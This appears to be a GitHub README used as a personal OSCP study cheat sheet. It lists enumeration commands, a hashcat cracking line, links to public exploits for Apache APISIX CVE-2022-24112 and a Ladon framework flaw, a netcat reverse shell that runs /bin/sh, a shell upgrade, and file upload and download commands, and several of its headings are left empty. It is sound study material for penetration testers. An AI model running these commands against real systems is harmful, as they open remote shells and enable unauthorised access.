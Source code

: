 # OSCP
Offensive Security Certified Professional is an ethical hacking certification offered by Offensive Security that teaches penetration testing methodologies and the use of the tools included with the Kali Linux distribution.
# Enumeration
## NMAP
nmap -sV -sS 127.0.0.1 (all ports)
## Nikto
nikto -h 127.0.0.1
## SMB
## Gobuster
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -t 5 -u http://target.url -q
## Linpeas
## Winpeas
# Payloads
## Msfvenom
# Brute Force
# Cracking
## Hashcat (https://hashcat.net/wiki/doku.php?id=example_hashes)
hashcat -a 0 -m 1600 -w 2 --show hash.txt /usr/share/wordlists/rockyou.txt  
# Exploits
## Apache Apisix 2.8
(CVE-2022-24112)  
{"error_msg":"404 Route Not Found"}  
https://github.com/twseptian/cve-2022-24112
## Ladon Framework
(NO CVE)  
WSGIServer 0.1 (Python 2.7.16)  
https://www.exploit-db.com/exploits/43113  
https://www.youtube.com/watch?v=3XgGjEG0lLw  
# Shell
## Netcat (listener)
nc -lvnp 8080
## Netcat (sender)
nc 127.0.0.1 8080 -e /bin/sh
# Shell Upgrade
## Python
python -c 'import pty; pty.spawn("/bin/bash")'
# File Hosting
## Python
python3 -m http.server 8080
# File Transfer
## Curl (upload)
curl -T file.php -u 'username:password' http://target.url
## Wget (download)
wget 127.0.0.1/file
# Privilege Escalation
## Crontab
cat /etc/crontab

